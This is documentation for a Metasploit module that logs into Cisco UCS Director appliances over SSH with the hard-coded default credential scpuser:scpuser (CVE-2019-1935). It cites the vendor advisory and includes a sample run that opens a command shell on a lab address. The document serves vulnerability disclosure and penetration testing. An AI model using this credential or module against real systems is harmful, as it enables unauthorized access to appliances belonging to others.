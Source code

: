 ## Introduction

This module abuses a known default password on Cisco UCS Director. The 'scpuser'
has the password of 'scpuser', and allows an attacker to login to the virtual appliance
via SSH (aka CVE-2019-1935).

This module has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
Note that Cisco also mentions in their advisory that their IMC Supervisor and
UCS Director Express are also affected by these vulnerabilities, but this module
was not tested with those products.


## Author and discoverer

Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security


## References

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190821-imcs-usercred
https://seclists.org/fulldisclosure/2019/Aug/36
https://raw.githubusercontent.com/pedrib/PoC/master/advisories/cisco-ucs-rce.txt


## Usage

Setup RHOST and run it!

```
msf5 exploit(linux/http/cisco_ucs_rce) > use exploit/linux/ssh/cisco_ucs_scpuser
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > set rhost 10.9.8.121
rhost => 10.9.8.121
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > set lhost 10.9.8.1
lhost => 10.9.8.1
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > run

[*] 10.9.8.121:22 - Attempt to login to the Cisco appliance...
[+] 10.9.8.121:22 - Login Successful (scpuser:scpuser)

[*] Found shell.
[*] Command shell session 1 opened (10.9.8.1:38113 -> 10.9.8.121:22) at 2019-08-29 22:27:42 +0700

whoami
scpuser
^C
Abort session 1? [y/N]  y
""

[*] 10.9.8.121 - Command shell session 1 closed.  Reason: User exit
```
